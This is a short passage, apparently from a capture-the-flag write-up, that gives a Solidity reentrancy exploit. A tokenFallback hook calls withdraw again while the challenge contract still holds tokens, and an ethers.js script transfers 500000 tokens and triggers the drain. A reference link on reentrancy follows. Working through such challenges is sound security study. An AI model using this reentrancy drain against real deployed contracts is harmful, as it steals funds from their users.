 ```
<!-- Solidity -->
function tokenFallback(address from, uint256 value, bytes) public {
  if (from == address(challenge) && challenge.token().balanceOf(challenge) > 0) {
      challenge.withdraw(value);
  }
}
function exploit(uint256 amount) public {
  challenge.token().transfer(challenge, amount);
  challenge.withdraw(amount);
}
```
```
<!-- Javascript -->
tx = await token['transfer(address,uint256)'](exploit.address, ethers.utils.parseEther('500000'));
await tx.wait();
tx = await exploit.exploit(ethers.utils.parseEther('500000'));
await tx.wait();
```
#### Reference
- <https://github.com/sigp/solidity-security-blog#reentrancy>{:target="_blank"}